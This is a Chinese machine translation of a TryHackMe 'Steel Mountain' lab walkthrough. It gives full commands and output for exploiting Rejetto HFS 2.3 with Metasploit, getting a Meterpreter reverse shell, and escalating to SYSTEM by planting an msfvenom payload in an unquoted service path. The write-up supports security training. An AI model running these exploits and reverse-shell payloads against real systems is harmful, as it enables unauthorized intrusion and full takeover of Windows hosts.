

# TryHackMe 报道:钢铁之山

> 原文：<https://infosecwriteups.com/tryhackme-writeup-steel-mountain-d052141f8901?source=collection_archive---------0----------------------->

钢铁山([“TryHackMe”，2019](https://tryhackme.com/room/steelmountain) )是一个 *TryHackMe 贵宾室*，以*机器人先生*为主题。它是相当初级的，旨在为初级渗透测试人员甚至是“完全的初学者”提供一些侵入基于 Windows 的 boot2root 虚拟机的经验。我能够完成涉及 Metasploit 的部分——但是**不能**完成涉及手工开发的任务([同上，任务 4](https://tryhackme.com/room/steelmountain) )。在本文中，我将讨论在 boot2root 系统上获得 root 权限的过程。



基础图片:[团队要塞 2 Wiki(未注明)](https://wiki.teamfortress.com/wiki/Thunder_Mountain)和 [Gilstorf (2019)](https://telltaletv.com/2019/11/preview-mr-robot-season-4-episode-5-method-not-allowed/mr-robot-season-4-59/)

# 程序

## 初始探测

与 TryHackMe boot2root 机器一样，我首先点击绿色的“Start Machine”按钮来启动虚拟机，然后等待大约五分钟。实验室问的第一个问题是“谁是本月最佳员工？”这让我认为 boot2root 机器在端口 80 上运行某种 web 服务器。所以，我随便浏览了一下网站，偶然发现了这个:


“钢铁之山”的主页

“本月最佳员工”的名字很容易确定:它就在源图像文件的文件名中。它可以被发现，特别是在 Firefox 上，通过右击图像并选择“复制图像链接”

然后，我转到探测的更多技术方面，从使用以下标志的强制 *nmap* 扫描开始:

`nmap -sT -A -v <boot2root ip> -Pn -p- -O -sC -oX tcp_scan.xml`

房间里提到 boot2root 虚拟机运行的是 Windows，也就是默认不响应 pings。因此，我使用`-Pn`标志让 *nmap* 在禁用主机发现的情况下扫描 boot2root 虚拟机——绕过了这个过程中的限制。

查看 *nmap* 输出，boot2root 虚拟机正在运行一个有趣的服务:

```
8080/tcp open http HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
| http-methods: 
|_   Supported Methods: GET HEAD POST
```

`HttpFileServer httpd 2.3`版本信息指的是 Rejetto HTTP 文件服务器([Rejetto.com，n . d .](http://rejetto.com/hfs/))——显然指的是 2.3 版本。正如我将在下一小节中演示的，该服务容易受到远程命令执行漏洞的攻击。

## 剥削

我的下一步是启动 Metasploit 框架…

```
**└─$ sudo msfconsole**[... snip ...]=[ metasploit v6.1.26-dev ]
+ — — =[ 2194 exploits — 1162 auxiliary — 400 post ]
+ — — =[ 596 payloads — 45 encoders — 10 nops ]
+ — — =[ 9 evasion ]Metasploit tip: Search can apply complex filters such as 
search cve:2009 type:exploit, see all the filters 
with help search**msf6 >** 
```

…然后配置并启动漏洞利用:

```
**msf6 >** **use exploit/windows/http/rejetto_hfs_exec**
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set PAYLOAD windows/x64/meterpreter/reverse_tcp** PAYLOAD => windows/x64/meterpreter/reverse_tcp
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set RHOSTS <boot2root ip>**
RHOSTS => <boot2root ip>
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set RPORT 8080**
RPORT => 8080
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(windows/http/rejetto_hfs_exec)** > **set SRVHOST <attackbox ip>**
SRVHOST => <attackbox ip>
**msf6 exploit(windows/http/rejetto_hfs_exec) >** **exploit**[*] Started reverse TCP handler on <attackbox ip>:4444 
[*] Using URL: http://<attackbox ip>:8080/EFTPYjGK3Xe
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /EFTPYjGK3Xe
[*] Sending stage (175174 bytes) to <boot2root ip>
[*] Meterpreter session 1 opened (<attackbox ip>:4444 -> <boot2root ip>:49322 ) at [redacted]**meterpreter >**
```

现在我可以去拿旗子了。我首先列出了我所在的当前目录(Cmd。1)然后移动到当前用户的帐户文件夹(Cmd。2).然后，我搜索扩展名为`.txt`的文件(Cmd。3)找到一个有趣的文件，完整路径为:`c:\Users\bill\Desktop\user.txt`。最后，我只是转储了标志的文本文件(Cmd。4).

```
**[1] meterpreter >** **pwd**
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
**[2] meterpreter >** **cd C:\\Users\\bill
[3] meterpreter >** **search -f *.txt**
Found 59 results...
===================
Path    Size (bytes)     Modified (UTC)                                                                                                                                                          
----    ------------     --------------                                                                                               
c:\Program Files (x86)\IObit\Advanced SystemCare\Display_log.txt                                                                                                    586           [redacted] -0500
c:\Program Files (x86)\IObit\Advanced SystemCare\Update History.txt                                                                                                 8386          2016-07-27 17:09:38 -0400
[... snip ...]
c:\Users\bill\Desktop\user.txt                                                                                                                                      70            2019-09-27 08:42:38 -0400
[... snip ...]
**[4] meterpreter > cat C:\\Users\\bill\\Desktop\\user.txt**
[redacted]
```

## 后剥削

有了远程计算机的 shell，我可以继续进行更多关于它的“有趣”的活动，比如后门和抢劫。但是在我这样做之前，我需要有管理员甚至系统特权。

不幸的是，我还没有这样的特权:

```
**meterpreter > getuid**
Server username: STEELMOUNTAIN\bill
```

为了升级权限，我将使用[《powershell mafia》(2017)](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)开发的 *PowerUp* 脚本来枚举系统。我将它下载到我的攻击箱，然后上传到 boot2root 机器:

```
**meterpreter > upload ~/steelmountain/PowerUp.ps1** .
[*] uploading : ~/steelmountain/PowerUp.ps1 -> .
[*] uploaded : ~/steelmountain/PowerUp.ps1 -> .\PowerUp.ps1
**meterpreter > pwd**
C:\Users\bill\Desktop
**meterpreter > ls**
Listing: C:\Users\bill\Desktop
==============================Mode   Size   Type   Last modified   Name
----   ----   ----   --------------  ----
100666/rw-rw-rw- 600580 fil [redacted] -0500 PowerUp.ps1
100666/rw-rw-rw- 282 fil 2019–09–27 07:07:07 -0400 desktop.ini
100666/rw-rw-rw- 70 fil 2019–09–27 08:42:38 -0400 user.txt
```

现在，我开始用*加电*脚本列举系统:

```
**[1] meterpreter > load powershell**
Loading extension powershell… Success.
**[2] meterpreter > powershell_shell**
**[3] PS > pwd**Path
----
C:\Users\bill\Desktop**[4] PS > . .\PowerUp.ps1**
**[5] PS > Invoke-AllChecks**ServiceName           : AdvancedSystemCareService9
Path                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath        : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName             : LocalSystem
AbuseFunction         : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart            : True
Name                  : AdvancedSystemCareService9
Check                 : Unquoted Service Paths[… snip …]
```

我首先加载了 Meterpreter 的`powershell`扩展(Cmd。1)，进入 PowerShell 环境(Cmd。2)只是想确保我在`bill`的桌面文件夹(Cmd。3).然后，我从*加电*脚本(Cmd)加载功能。4)并继续列举系统中的服务(Cmd。5).

我注意到`AdvancedSystemCareService9`服务的`CanRestart`配置被设置为 True，并且显示有一个*未引用的服务路径漏洞*。我对这种漏洞不太熟悉，所以我查了一下，偶然看到一个指南( [Chandel，2021](https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/) )讨论如何利用它。

事实证明，通用的*未引用的服务路径漏洞*相当容易被利用；这和 DLL 搜索命令劫持非常相似( [ATT & CK 框架，n.d.](https://attack.mitre.org/techniques/T1574/001/) )。基本思想是 Windows API 假设服务可执行文件路径不包含任何空格( [Chandel，2021](https://attack.mitre.org/techniques/T1574/001/) )。如果存在文件空间，则可以“游戏”加载服务可执行文件的搜索顺序，并加载有效载荷而不是预期的服务([同上](https://attack.mitre.org/techniques/T1574/001/))。

为了演示这一点，我将使用`msfvenom`来生成一个反向的 Meterpreter 会话:

```
**└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attackbox ip> LPORT=4445 -f exe -o Advanced.exe**
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: Advanced.exe
```

上传到正确的路径:

```
**meterpreter > upload ~/steelmountain/Advanced.exe “C:\\Program Files (x86)\\IObit\\Advanced.exe”**
[*] uploading : ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
[*] Uploaded 7.00 KiB of 7.00 KiB (100.0%): ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
[*] uploaded : ~/steelmountain/Advanced.exe -> C:\Program Files (x86)\IObit\Advanced.exe
```

然后打开另一个 Metasploit 会话来侦听 Meterpreter 会话呼叫总部:

```
**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp**
PAYLOAD => windows/x64/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(multi/handler) > set LPORT 4445**
LPORT => 4445
**msf6 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on <attackbox ip>:4445
```

最后，重启`AdvancedSystemCareService9`服务:

```
**meterpreter > shell**
Process 812 created.
Channel 7 created.
Microsoft Windows [Version 6.3.9600]
© 2013 Microsoft Corporation. All rights reserved.**C:\Users\bill\Desktop>net stop AdvancedSystemCareService9**
net stop AdvancedSystemCareService9
.
The Advanced SystemCare Service 9 service was stopped successfully.**C:\Users\bill\Desktop>net start AdvancedSystemCareService9**
net start AdvancedSystemCareService9
```

我获得了反向 Meterpreter 会话和全部权限(Cmd。1)但很快不得不迁移到更稳定的流程(Cmd。2).

```
[*] Started reverse TCP handler on <attackbox ip>:4445 
[*] Sending stage (200262 bytes) to <boot2root ip>
[*] Meterpreter session 3 opened (<attackbox ip>:4445 -> <boot2root ip>:49516 ) at [redacted] -0500**[1] meterpreter > getuid**
Server username: NT AUTHORITY\SYSTEM
**[2] meterpreter > migrate 2068**
[*] Migrating from 3292 to 2068…
[*] Migration completed successfully.
```

我终于可以搜索根标志并转储它了:

```
**meterpreter > search -f root.txt**
Found 1 result…
=================Path Size (bytes)    Modified (UTC)
-----------------    --------------
c:\Users\Administrator\Desktop\root.txt 32 2019–09–27 08:41:10 -0400**meterpreter > cat "c:\Users\Administrator\Desktop\root.txt"**
[redacted]**meterpreter >**
```

# 结论

钢铁山房间还有一个任务，要求争夺者在没有 Metasploit 的情况下黑入 boot 2 root VM*([《tryhackme》2019，任务 4](https://tryhackme.com/room/steelmountain) )。我还没有这样做，但会计划在不久的将来这样做；-)*

我仍然想写这篇文章，希望能为那些对攻击性安全感兴趣的人提供参考。

# 参考

ATT 和 CK 框架(未标明)。*劫持执行流程:DLL 搜索命令劫持*。米特公司。2022 年 3 月 9 日检索自:[https://attack.mitre.org/techniques/T1574/001/](https://attack.mitre.org/techniques/T1574/001/)

钱德尔河(2021)。 *Windows 权限提升:未引用的服务路径*。黑客文章。2022 年 3 月 9 日检索自:[https://www . hacking articles . in/windows-privilege-escalation-un quoted-service-path/](https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/)

Gilstorf，A. (2019)。机器人先生第四季第六集——卡莉·查肯饰演达琳·奥尔德逊，拉米·马雷克饰演埃利奥特·奥尔德逊。泄密电视。2022 年 3 月 6 日检索自:[https://telltaletv . com/2019/11/preview-Mr-robot-season-4-episode-5-method-not-allowed/Mr-robot-season-4-59/](https://telltaletv.com/2019/11/preview-mr-robot-season-4-episode-5-method-not-allowed/mr-robot-season-4-59/)

《powershell mafia》(2017)。 *PowerSploit/PowerUp.ps1* 。GitHub 仓库。2022 年 3 月 9 日检索自:[https://github . com/powershell mafia/PowerSploit/blob/master/Privesc/power up . PS1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)

Rejetto.com(未标出)。 *HFS ~ HTTP 文件服务器*。2022 年 3 月 9 日检索自:[http://rejetto.com/hfs/](http://rejetto.com/hfs/)

团队堡垒 2 维基(未注明)。*雷山*。2022 年 3 月 9 日检索自:[https://wiki.teamfortress.com/wiki/Thunder_Mountain](https://wiki.teamfortress.com/wiki/Thunder_Mountain)

《tryhackme》(2019)。*钢铁山*。TryHackMe。2022 年 3 月 9 日检索自:[https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

Infosec Writeups 团队刚刚完成了我们的第一次虚拟网络安全会议和网络活动。我们有 16 位出色的演讲者，他们主持了非常有价值和鼓舞人心的会议。要查看演讲者和主题列表，请点击此处。

[](https://iwcon.live/) [## IWCon2022 — Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)